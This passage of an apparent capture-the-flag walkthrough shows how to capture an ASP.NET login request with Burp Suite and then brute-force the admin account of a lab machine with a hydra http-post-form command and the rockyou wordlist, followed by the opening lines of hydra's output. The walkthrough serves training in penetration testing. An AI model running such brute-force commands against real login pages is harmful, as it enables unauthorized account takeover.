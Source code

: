* VIEWSTATE & EVENTVALIDATION from source

```
<input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE" value="0gSvbjURsSQNHy6akuYRcAxJovcdMHNTPJVS328KJi6nW/f/UvMSr5I6EqpPpEz3TcCjs4/pv8DtMx1qOyYJuDb44ad0TOYIlHPNKpeQzTBaN2bKVi8vIAohVLP2zEE1JuQOj+Pp8G8wDoPQHlQRAHX5DH5aKMaDbVJAhOJrRkyXGjwYTib86N1+2+muiEXlmT47Xjj5IfIkUmUfVnv1A/00LXIWsYjDDe3zD3rL8acGgIPLYXpdWs/PNmFV44t5uJVrUksqQGp+ZiHwc2HL4LSZM6w/Blt+q+tXT9FnEwD1gWQvXTxOXtEu9Oge5XkrdzLHXeGgzPRXpiWe806+kxmysmkjrgQWlRb0qRVxtUK+Azx6" />
<input type="hidden" name="__EVENTVALIDATION" id="__EVENTVALIDATION" value="eYEtOhBT0lUZFZaXNOcljs3t/wVMr1HibYcCqrOsBUVLuHn40ocjv2g1Wdohss60VK2OCdicwMpDOa85sQWdYV1JMnJAcUfzgbsPykfMtlsIxsTemAGmALXJOFJYbNFTCKSRMMto70qANNCWa5/goDg82EyaxHC0y/o2QfZWhE0qNScL" />
```

I'm going to be using [Burp Suite](https://portswigger.net/burp) to intercept a login request to get the payload (all this info together).

* Start burp.
* Go to proxy tab and turn intercept off.
* Open firefox and navigate to the login page.
* Turn on [FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/) for Burp.
* Turn intercept on and submit a incorrect login using ^USER^ and ^PASS^ so you don't have to go in and modify the payload.

```
__VIEWSTATE=bn2IF%2FMii4B%2Feif7lhMIfZLZT6E78sPArHOratYwn2FcneCJuHeWJLbw5yTNnI%2Fpv%2BBz9VcFmBshvmIb9yDahSZoNy6%2BHiihSkSrUIAxCL2kis%2FdD0spca1ml3kR9N9DkSBXn%2FK6fk0G6Rk6%2B2jsgRVly9LJbZhE%2BgBOY2m6H0yiAmurav4mSSvcugDw9qaE0Sc%2F6BZE9NFz0RoWjxjq2%2BhhygGG0kYjJOKuyXBIcf6BSj0aLxVW8RALhOtO%2FPLRa8neezjMbCqQSAQyHZuWwJHnQz%2BWC9eK82gjUEu9Jsez%2FePIz8W3NA%2FEwnyhmrLeVbezqo0fvZWahl7sdgks41fVz2RL7YiLkY8z5qtCaNvDZmyL&__EVENTVALIDATION=eBlJe%2Fme8dU7GyaraKmAlVquPs%2F4rKPfnKmHIIcmrd46xPXi2dfMJifYamCroribdwV8wQuqQC%2FJ8VzVbZs8srZitTYWwPecoeZ6tHsbBDbuuyOMu7wEyaWVocZdL%2FdTdBjX8thBwFCCXdD34zMNEtPn9JKBxxJtcPYyxAcwxscD%2BVqO&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

Alright, it's time to try and bruteforce an account with hydra. Let's start with admin and see if we can get anything.

```
hydra -l admin -P rockyou.txt 10.10.220.231 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=bn2IF%2FMii4B%2Feif7lhMIfZLZT6E78sPArHOratYwn2FcneCJuHeWJLbw5yTNnI%2Fpv%2BBz9VcFmBshvmIb9yDahSZoNy6%2BHiihSkSrUIAxCL2kis%2FdD0spca1ml3kR9N9DkSBXn%2FK6fk0G6Rk6%2B2jsgRVly9LJbZhE%2BgBOY2m6H0yiAmurav4mSSvcugDw9qaE0Sc%2F6BZE9NFz0RoWjxjq2%2BhhygGG0kYjJOKuyXBIcf6BSj0aLxVW8RALhOtO%2FPLRa8neezjMbCqQSAQyHZuWwJHnQz%2BWC9eK82gjUEu9Jsez%2FePIz8W3NA%2FEwnyhmrLeVbezqo0fvZWahl7sdgks41fVz2RL7YiLkY8z5qtCaNvDZmyL&__EVENTVALIDATION=eBlJe%2Fme8dU7GyaraKmAlVquPs%2F4rKPfnKmHIIcmrd46xPXi2dfMJifYamCroribdwV8wQuqQC%2FJ8VzVbZs8srZitTYWwPecoeZ6tHsbBDbuuyOMu7wEyaWVocZdL%2FdTdBjX8thBwFCCXdD34zMNEtPn9JKBxxJtcPYyxAcwxscD%2BVqO&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
```

After a few minutes, we get a WIN!

```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-21 22:43:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.220.231:80/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=bn2IF%2FMii4B%2Feif7lhMIfZLZT6E78sPArHOratYwn2FcneCJuHeWJLbw5yTNnI%2Fpv%2BBz9VcFmBshvmIb9yDahSZoNy6%2BHiihSkSrUIAxCL2kis%2FdD0spca1ml3kR9N9DkSBXn%2FK6fk0G6Rk6%2B2jsgRVly9LJbZhE%2BgBOY2m6H0yiAmurav4mSSvcugDw9qaE0Sc%2F6BZE9NFz0RoWjxjq2%2BhhygGG0kYjJOKuyXBIcf6BSj0aLxVW8RALhOtO%2FPLRa8neezjMbCqQSAQyHZuWwJHnQz%2BWC9eK82gjUEu9Jsez%2FePIz8W3NA%2FEwnyhmrLeVbezqo0fvZWahl7sdgks41fVz2RL7YiLkY8z5qtCaNvDZmyL&__EVENTVALIDATION=eBlJe%2Fme8dU7GyaraKmAlVquPs%2F4rKPfnKmHIIcmrd46xPXi2dfMJifYamCroribdwV8wQuqQC%2FJ8VzVbZs8srZitTYWwPecoeZ6tHsbBDbuuyOMu7wEyaWVocZdL%2FdTdBjX8thBwFCCXdD34zMNEtPn9JKBxxJtcPYyxAcwxscD%2BVqO&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed
[STATUS] 1370.00 tries/min, 1370 tries in 00:01h, 14343029 to do in 174:30h, 16 active
```